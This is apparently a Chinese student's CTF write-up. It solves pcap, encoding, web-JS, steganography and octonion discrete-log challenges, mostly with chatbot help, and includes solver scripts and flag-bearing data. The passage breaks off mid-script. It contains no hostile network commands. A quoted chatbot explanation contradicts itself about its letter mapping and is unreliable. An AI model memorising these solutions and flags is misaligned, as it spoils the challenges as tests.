








概要
===

这是我的第一个wp

队伍截图
===




题目信息 - [Easy] Plain HTTP Data
===

过程
---

下载的是一个.pcapng文件。我的电脑此前装过wireshark，可以直接打开该文件。所有员工信息数据都是明文传输，因此可以直接获取员工信息。此前我没有接触过这类问题，最开始根据AI提示，选择导出对象导出为HTTP，确实能导出身份信息，然而这些文件名全部相同，数据量大，甚至超出文件名重复而冲突的重命名最大量999。后面我又自己找到导出分组解析结果的选项，此选项可以将所有网络数据全部集合到一个文本文件中，还是JSON格式。那还说什么了兄弟，直接喂给AI让他帮我提取信息，转成csv格式，然后上传到提供的网站获取flag。

附
---

截图
---

复现的结果，flag可能不同于提交



代码
---

```py
import json
import csv

# 读取包含所有数据的 JSON 文件
with open(r"D:\Common folders\Development\gdut works\gdutctf\211830_Plain-HTTP-Data\s.json", "r", encoding="utf-8") as f:
    data = json.load(f)

# 表头顺序
header = ["name", "gender", "id", "phone_number", "address", "email"]

# 存储所有员工数据
employees = []

# 遍历所有数据包
for packet in data:
    try:
        # 检查是否有 json 数据
        layers = packet["_source"]["layers"]
        if "json" in layers:
            json_data = layers["json"]
            if "json.object" in json_data:
                # 提取员工 JSON 字符串并解析
                employee_json_str = json_data["json.object"]
                employee_data = json.loads(employee_json_str)
                
                # 确保包含所有必要字段
                if all(field in employee_data for field in header):
                    employees.append(employee_data)
                    
    except Exception as e:
        # 跳过错误的数据包
        continue

# 写入 CSV 文件
with open(r"D:\Common folders\Development\gdut works\gdutctf\211830_Plain-HTTP-Data\employees.csv", "w", newline="", encoding="utf-8-sig") as csvfile:
    writer = csv.DictWriter(csvfile, fieldnames=header)
    writer.writeheader()
    writer.writerows(employees)

print(f"成功提取 {len(employees)} 条员工数据，保存到 employees.csv")

# 显示前几条数据作为验证
print("\n前5条数据预览：")
for i, emp in enumerate(employees[:5]):
    print(f"{i+1}. {emp}")
```

人机对话
---

[对话1 复制或点击打开链接](https://chat.deepseek.com/share/hgwx2knt33azmwxxql)

[对话2 复制或点击打开链接](https://chat.deepseek.com/share/ojdvez134nkuukcu7a)

[对话3包含最终代码 复制或点击打开链接](https://chat.deepseek.com/share/am9k1qma02lplzlpre)


题目信息 - [Easy] 这家伙在说什么呢？
===

过程
---

这是一串二进制文本，那还说什么了兄弟，直接喂给AI。这题很简单，5位一组转成十进制，得到对应字母表26位的字母，即可得到flag。

附
---

截图
---



人机对话
---

me
---

```
00101 01011 00000 00110 00011 10100 01101 10010 00111 00000 01101 10010 00111 10100 01110 00011 00100 00011 10100 01000
```

deepseek
---

```
好的，我们先一步步来分析这段二进制序列。

你给出的二进制是：

text
00101 01011 00000 00110 00011 10100 01101 10010 00111 00000 01101 10010 00111 10100 01110 00011 00100 00011 10100 01000
1. 观察分组
看起来是每 5 位一组，这很可能是某种 5-bit 编码（如 Base32 的原理），或者是直接映射到字母表。

2. 尝试 5-bit 转十进制
5 位二进制范围是 0–31。
我们转换每一组：

00101 → 5

01011 → 11

00000 → 0

00110 → 6

00011 → 3

10100 → 20

01101 → 13

10010 → 18

00111 → 7

00000 → 0

01101 → 13

10010 → 18

00111 → 7

10100 → 20

01110 → 14

00011 → 3

00100 → 4

00011 → 3

10100 → 20

01000 → 8

得到数字序列：
5, 11, 0, 6, 3, 20, 13, 18, 7, 0, 13, 18, 7, 20, 14, 3, 4, 3, 20, 8

3. 猜测映射关系
常见的一种是 A=0 或 A=1 的映射。
如果 A=0，那么：
0→A, 1→B, …, 25→Z。
但这里有数字超过 25（比如 20 是 U 左右，但 13 是 N 左右），我们试试直接映射到字母表 A=1 还是 A=0。

先试 A=0（即 0=A, 1=B, …, 25=Z）：
5 → F
11 → L
0 → A
6 → G
3 → D
20 → U
13 → N
18 → S
7 → H
0 → A
13 → N
18 → S
7 → H
20 → U
14 → O
3 → D
4 → E
3 → D
20 → U
8 → I

得到：FLAG DUNSH? ANSHU? ODEDUI 不太通顺。等等，我拼一下：
FLAGDUNSHANSHUODEDUI → 分成单词：FLAG DUNSH ANSHUO DEDUI 不太对。

4. 试 A=1（即 1=A, 2=B, …, 26=Z）
那么数字要加 1 再映射。
原数字：5 → 6=F, 11→12=L, 0→1=A, 6→7=G, 3→4=D, 20→21=U, 13→14=N, 18→19=S, 7→8=H, 0→1=A, 13→14=N, 18→19=S, 7→8=H, 20→21=U, 14→15=O, 3→4=D, 4→5=E, 3→4=D, 20→21=U, 8→9=I

得到：FLAG DUNSHANSHUODEDUI 还是不太对，但“DUNSHANSHUO” 像是拼音？
等一下，“DUNSHANSHUODEDUI” → 可能是“盾山说的对”？
“盾山说的对”拼音是 dun shan shuo de dui，但这里字母是 DUNSHANSHUODEDUI，中间少空格，盾=DUN，山=SHAN，说=SHUO，的=DE，对=DUI。
检查：
DUN = 4,21,14（不对，我们映射是 4=D, 21=U, 14=N → DUN ✅）
SHAN = 19,8,1,14（S=19,H=8,A=1,N=14 ✅）
SHUO = 19,8,21,15（S=19,H=8,U=21,O=15 ✅）
DE = 4,5（D=4,E=5 ✅）
DUI = 4,21,9（D=4,U=21,I=9 ✅）

完全匹配！所以这是 A=1 的映射（即二进制数字+1 对应字母序号）。

5. 转换成文字
数字序列（原二进制转十进制）：
5→F, 11→L, 0→A, 6→G, 3→D, 20→U, 13→N, 18→S, 7→H, 0→A, 13→N, 18→S, 7→H, 20→U, 14→O, 3→D, 4→E, 3→D, 20→U, 8→I

拼起来：FLAGDUNSHANSHUODEDUI → 按拼音分词：FLAG DUN SHAN SHUO DE DUI
中文意思：“盾山说的对”。

6. 最终答案
这看起来像是一个梗（盾山是《王者荣耀》英雄），可能flag就是拼音或者直接是那句话。
在CTF里，flag格式一般是 flag{...}，所以可能是：

text
flag{DUNSHANSHUODEDUI}
或者

text
flag{盾山说的对}
具体看题目要求，一般用英文字母形式。

所以我的最终答案是：
flag{DUNSHANSHUODEDUI}
```


题目信息 - [Easy] Crossy Road
===

过程
---

一半使用AI的解题。这是一个做得很烂的网页游戏，即使死了也可以使用键盘移动。网站不让用快捷键打开开发人员工具，还禁了右键，但是我还有n-3种方法打开开发人员工具，最简单的是右上角菜单栏打开。查看js源文件，可以看到最底部有一个函数getflag()，返回了一个密文，那还说什么啊兄弟，直接喂给AI，进行两次base64解码，得到flag

附
---

截图
---



代码
---

```py
import base64

data = "Wm14aFozdGlOR1UyWVRNd01pMWlaRE5tTFRSa1ltSXRPR1JrT1MwMU5tVm1OVEl5TWpWaFpHRjkK"

decoded_bytes = base64.b64decode(data)
decoded_bytes = base64.b64decode(decoded_bytes)
decoded_str = decoded_bytes.decode('utf-8')

print(decoded_str)
```

人机对话
---

[复制或点击打开链接](https://chat.deepseek.com/share/m96rc0uu6l00pwiank)


题目信息 - [Normal] 欢迎来到我的 Github Profile
===

过程
---

打开此人的github界面，翻阅提交记录，可在2023年找到有很多贡献记录，从1月8日至9月16日，贡献数只有0，1，3，6，判断信息藏在这些贡献记录中。暂时不知道有什么办法能自动将github的贡献数据自动转为数据，写一个脚本又很麻烦，于是手动录入，按日期先后排序，得到131313601301131616361316133116101330111113030361130606001363161011031360130316111110060106001063110603611006100013631166100313110361161306010611111110001060106011310361110610111011106303611066136311661110103010110361110016030600131313311060060616610000，那还说什么了兄弟，直接喂给AI解码。0表示00，1表示01，3表示10，6表示11，再二进制转字节，对字节ascii编码转中文得到flag

附
---

截图
---



代码
---

```py
data = "131313601301131616361316133116101330111113030361130606001363161011031360130316111110060106001063110603611006100013631166100313110361161306010611111110001060106011310361110610111011106303611066136311661110103010110361110016030600131313311060060616610000"

bitmap = {'0':'00', '1':'01', '3':'10', '6':'11'}
bin_str = ''.join(bitmap[c] for c in data)

# 每 8 位转一个字节
bytes_list = []
for i in range(0, len(bin_str), 8):
    byte = bin_str[i:i+8]
    if len(byte) == 8:
        bytes_list.append(int(byte, 2))

text = bytes(bytes_list).decode('ascii', errors='ignore')
print(text)
```

人机对话
---
[复制或点击打开链接](https://chat.deepseek.com/share/xm5re4mazezqlu84a4)


题目信息 - [Normal] Click the Circles
===

使用AI的解题
---

这是一个osu谱面文件，作为一个osu资深老玩家来说，对osu谱面这个东西可谓非常熟悉。首先直接从官网下载原谱面，就可以与夹带私货的谱面比较，可以发现，音频和图片大小完全一样，而.osu文件差了1到2KB，比较.osu文件，bookmarks的部分与timingpoints的位置有差别。timeingpoints的差别大部分似乎是小数点四舍五入有差别，初步判断是由于官网的谱面有更新，所以私货在bookmarks。那还说什么呢？直接喂给AI。

解题的过程~~（对话的过程）~~比较曲折，总结来说，是得到bookmarks序列，然后相减得到相邻数字的差。差只有500，1000，1500。题目描述不是隐写，那么可以推断是摩斯密码，500是"."，1000是"-"，1500是分隔符。使用python解码，得到flag。

附
---

截图
---



代码
---

```py
data = [1000,2000,3000,4000,5000,6000,7500,8000,8500,9000,9500,10000,11500,12000,12500,13500,15000,15500,16000,17000,18000,18500,19500,21000,21500,22000,23500,24000,24500,25000,26500,27500,28000,28500,29000,29500,30500,32000,32500,33500,34500,35000,36000,36500,38000,39000,39500,40000,40500,41000,42000,43500,44500,45500,46000,47500,48500,49500,50500,51500,52500,54000,55000,56000,57000,58000,59000,60500,61500,62000,62500,64000,65000,65500,66000,66500,67000,68000,69500,70000,71000,71500,73000,73500,74000,74500,75000,76500,77500,78000,79000,80000,81500,82500,84000,84500,85000,85500,86000,87500,88500,89500,91000,92000,92500,93000,93500,94000,95000,96500,97500,98500,99000,100500,101000,102000,103000,103500,104500,105000,106500,107500,108500,110000,110500,112000,113000,113500,114000,114500,115000,116000,117500,118000,118500,119000,120500,121500,122500,123500,125000,125500,126000,127000,128000,128500,129500,131000,132000,132500,133500,134000,135500,136000,137000,138000,139000,140000,141500,142000,143000,144000,145000,146000,147500,148500,149000,150000,150500,152000,153000,153500,154500,156000,156500,157000,158000,159000,159500,160500,162000,163000,164500,165000,165500,166000,166500,168000,168500,169000,169500,170500,171500,173000,174000,174500,175000,175500,176000,177000,178500,179500,180000,181000,181500,183000,183500,184500,185000,185500,187000,187500,188500,189000,190500,191500,192000,193000,193500,195000,195500,196500,197000,197500,199000,199500,201000,201500,202000,202500,204000,205000,205500,206500,207000,208000,209000,210500,211500,212000,213000,213500,214500,215500,217000,218000,218500,219500,220000,221000,222000]

# 计算间隔
intervals = [data[i+1] - data[i] for i in range(len(data)-1)]

print(f"总间隔数: {len(intervals)}")

# Morse 码映射
morse_dict = {
    '.-': 'a',    '-...': 'b',  '-.-.': 'c',  '-..': 'd',
    '.': 'e',     '..-.': 'f',  '--.': 'g',   '....': 'h',
    '..': 'i',    '.---': 'j',  '-.-': 'k',   '.-..': 'l',
    '--': 'm',    '-.': 'n',    '---': 'o',   '.--.': 'p',
    '--.-': 'q',  '.-.': 'r',   '...': 's',   '-': 't',
    '..-': 'u',   '...-': 'v',  '.--': 'w',   '-..-': 'x',
    '-.--': 'y',  '--..': 'z',
    '-----': '0', '.----': '1', '..---': '2', '...--': '3',
    '....-': '4', '.....': '5', '-....': '6', '--...': '7',
    '---..': '8', '----.': '9',
    '--..--': ',', '.-.-.-': '.', '..--..': '?', '.----.': "'",
    '-.-.--': '!', '-..-.': '/', '-.--.': '(', '-.--.-': ')',
    '.-...': '&', '---...': ':', '-.-.-.': ';', '-...-': '=',
    '.-.-.': '+', '-....-': '-', '..--.-': '_', '.-..-.': '"',
    '...-..-': '$', '.--.-.': '@'
}

# 转换为 Morse 码
morse_code = ""
current_char = ""

for interval in intervals:
    if interval == 500:
        current_char += "."
    elif interval == 1000:
        current_char += "-"
    elif interval == 1500:
        # 结束当前字符
        if current_char:
            if current_char in morse_dict:
                morse_code += morse_dict[current_char]
            else:
                morse_code += "?"  # 未知字符
            current_char = ""
        morse_code += ""  # 单词分隔

# 处理最后一个字符
if current_char:
    if current_char in morse_dict:
        morse_code += morse_dict[current_char]
    else:
        morse_code += "?"

print("Morse 码解码结果:")
print(morse_code)

# 也显示原始的点和划序列用于验证
print("\n原始 Morse 序列:")
morse_sequence = ""
for interval in intervals:
    if interval == 500:
        morse_sequence += "."
    elif interval == 1000:
        morse_sequence += "-"
    elif interval == 1500:
        morse_sequence += " "
print(morse_sequence[:200] + "...")  # 显示前200个字符
```

人机对话
---

[复制或点击打开链接](https://chat.deepseek.com/share/ilnohtygbzg7hg9xdw)


题目信息 - [Easy] rickypto
===

过程
---
你要我将解题思路？好的，先把代码喂给AI，然后用AI给的解码代码直接套output。但是直接运行会失败，把报错信息喂给AI，重复几次，得到可以运行的代码，得到flag。

附
---

截图
---



代码
---

```py
import math
import time

def long_to_bytes(n):
    """Convert long integer to bytes without external dependencies"""
    if n == 0:
        return b'\x00'
    bytes_str = []
    while n > 0:
        bytes_str.append(n & 0xff)
        n >>= 8
    return bytes(bytes_str[::-1])

class Octonion:
    def __init__(self, coefficients, modulus):
        if len(coefficients) != 8:
            raise ValueError("Octonion must have 8 coefficients")
        self.coeffs = [c % modulus for c in coefficients]
        self.modulus = modulus
    
    def __mul__(self, other):
        a = self.coeffs
        b = other.coeffs
        m = self.modulus
        
        # Octonion multiplication table
        result = [0] * 8
        result[0] = (a[0]*b[0] - a[1]*b[1] - a[2]*b[2] - a[3]*b[3] - a[4]*b[4] - a[5]*b[5] - a[6]*b[6] - a[7]*b[7]) % m
        result[1] = (a[0]*b[1] + a[1]*b[0] + a[2]*b[3] - a[3]*b[2] + a[4]*b[5] - a[5]*b[4] - a[6]*b[7] + a[7]*b[6]) % m
        result[2] = (a[0]*b[2] - a[1]*b[3] + a[2]*b[0] + a[3]*b[1] + a[4]*b[6] + a[5]*b[7] - a[6]*b[4] - a[7]*b[5]) % m
        result[3] = (a[0]*b[3] + a[1]*b[2] - a[2]*b[1] + a[3]*b[0] + a[4]*b[7] - a[5]*b[6] + a[6]*b[5] - a[7]*b[4]) % m
        result[4] = (a[0]*b[4] - a[1]*b[5] - a[2]*b[6] - a[3]*b[7] + a[4]*b[0] + a[5]*b[1] + a[6]*b[2] + a[7]*b[3]) % m
        result[5] = (a[0]*b[5] + a[1]*b[4] - a[2]*b[7] + a[3]*b[6] - a[4]*b[1] + a[5]*b[0] - a[6]*b[3] + a[7]*b[2]) % m
        result[6] = (a[0]*b[6] + a[1]*b[7] + a[2]*b[4] - a[3]*b[5] - a[4]*b[2] + a[5]*b[3] + a[6]*b[0] - a[7]*b[1]) % m
        result[7] = (a[0]*b[7] - a[1]*b[6] + a[2]*b[5] + a[3]*b[4] - a[4]*b[3] - a[5]*b[2] + a[6]*b[1] + a[7]*b[0]) % m
        
        return Octonion(result, m)
    
    def __pow__(self, exponent):
        # Fast exponentiation
        result = Octonion([1] + [0]*7, self.modulus)
        base = self
        
        while exponent > 0:
            if exponent & 1:
                result = result * base
            base = base * base
            exponent >>= 1
        
        return result
    
    def __eq__(self, other):
        return all(a == b for a, b in zip(self.coeffs, other.coeffs))
    
    def __hash__(self):
        return hash(tuple(self.coeffs))
    
    def inverse(self):
        """Find the inverse of this octonion"""
        # For octonions, we can compute the inverse using the conjugate
        conj = Octonion([
            self.coeffs[0], 
            -self.coeffs[1], -self.coeffs[2], -self.coeffs[3],
            -self.coeffs[4], -self.coeffs[5], -self.coeffs[6], -self.coeffs[7]
        ], self.modulus)
        
        # Norm squared
        norm_sq = sum(x*x for x in self.coeffs) % self.modulus
        
        # Modular inverse of norm_sq
        try:
            inv_norm = pow(norm_sq, -1, self.modulus)
        except:
            return None
        
        # Inverse = conjugate / norm_sq
        result_coeffs = [ (x * inv_norm) % self.modulus for x in conj.coeffs ]
        return Octonion(result_coeffs, self.modulus)

def baby_step_giant_step(m, p_vec, q_vec):
    """Baby-step giant-step algorithm for DLP - much faster than brute force"""
    p = Octonion(p_vec, m)
    q = Octonion(q_vec, m)
    
    # Maximum possible exponent (from 4 bytes)
    n_max = 2**32
    
    # Use baby-step giant-step: n = i * m + j, where m = sqrt(n_max)
    m_size = int(math.isqrt(n_max)) + 1
    
    print(f"  Using baby-step giant-step with m = {m_size}")
    
    # Baby steps: store p^j for j = 0...m_size-1
    baby_steps = {}
    current = Octonion([1] + [0]*7, m)  # Identity
    
    for j in range(m_size):
        baby_steps[current] = j
        current = current * p
    
    # Precompute p^(-m)
    p_inv = p.inverse()
    if p_inv is None:
        print("  Could not compute inverse, falling back to brute force")
        return brute_force_dlp(m, p_vec, q_vec)
    
    p_neg_m = p_inv ** m_size
    
    # Giant steps: q * (p^(-m))^i for i = 0...m_size
    current = q
    for i in range(m_size):
        if current in baby_steps:
            j = baby_steps[current]
            n = i * m_size + j
            if n < n_max:
                return n
        
        current = current * p_neg_m
    
    return None

def brute_force_dlp(m, p_vec, q_vec):
    """Fallback to brute force if baby-step giant-step fails"""
    p = Octonion(p_vec, m)
    q = Octonion(q_vec, m)
    
    current = p
    n = 1
    max_n = 2**32
    
    print(f"  Brute forcing (this may take a while)...")
    start_time = time.time()
    
    while n < max_n:
        if current == q:
            return n
        
        current = current * p
        n += 1
        
        # Progress report every 1 million iterations
        if n % 1000000 == 0:
            elapsed = time.time() - start_time
            rate = n / elapsed if elapsed > 0 else 0
            print(f"    Progress: {n//1000000}M iterations, {rate:.1f} it/s")
    
    return None

def recover_flag_fast(m, p_values, q_values):
    """Recover the flag using optimized algorithms"""
    flag_parts = []
    
    print(f"Starting recovery with modulus m = {m}")
    print(f"Number of chunks: {len(p_values)}")
    print("Using baby-step giant-step algorithm for speed")
    
    total_start = time.time()
    
    for i in range(len(p_values)):
        print(f"\nProcessing chunk {i+1}/{len(p_values)}...")
        chunk_start = time.time()
        
        n = baby_step_giant_step(m, p_values[i], q_values[i])
        
        chunk_time = time.time() - chunk_start
        
        if n is not None:
            flag_part = long_to_bytes(n).rstrip(b'\x00')
            flag_parts.append(flag_part)
            print(f"✓ Found exponent: n = {n} (in {chunk_time:.2f}s)")
            print(f"  Bytes: {flag_part}")
            try:
                print(f"  As text: {flag_part.decode('utf-8')}")
            except:
                print(f"  Hex: {flag_part.hex()}")
        else:
            print(f"✗ Failed to find exponent for chunk {i}")
            flag_parts.append(b'????')
    
    total_time = time.time() - total_start
    print(f"\nTotal time: {total_time:.2f} seconds")
    
    return b''.join(flag_parts)

# === PASTE YOUR ACTUAL DATA HERE ===
m = 10083710115893429629  # Replace with your actual m value
